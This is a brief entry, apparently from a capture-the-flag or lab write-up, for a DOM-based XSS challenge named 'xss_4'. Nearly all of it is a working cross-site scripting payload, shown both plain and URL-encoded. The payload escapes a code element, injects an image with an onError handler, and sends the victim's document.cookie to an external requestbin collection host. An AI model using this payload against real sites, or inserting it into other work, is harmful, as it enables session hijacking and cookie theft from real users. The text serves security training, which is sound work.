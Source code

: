 # xss_4 - DOM Based on <pre> (no `onload`, case sensitive)
- Payload (plain), `"></code><img src=x onError="document.location='http://requestbin.fullcontact.com/18kxbln1/?c='+document.cookie;"><code class="`
- Payload (URL encoded), `%22%3e%3c%2f%63%6f%64%65%3e%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%45%72%72%6f%72%3d%22%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%72%65%71%75%65%73%74%62%69%6e%2e%66%75%6c%6c%63%6f%6e%74%61%63%74%2e%63%6f%6d%2f%31%38%6b%78%62%6c%6e%31%2f%3f%63%3d%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%22%3e%3c%63%6f%64%65%20%63%6c%61%73%73%3d%22`
![](https://d2mxuefqeaa7sj.cloudfront.net/s_E2D481E3198F10AD94E0120767EA297F5AC3D36EF761F9188B556CCA1ADF3D51_1528413485452_image.png)
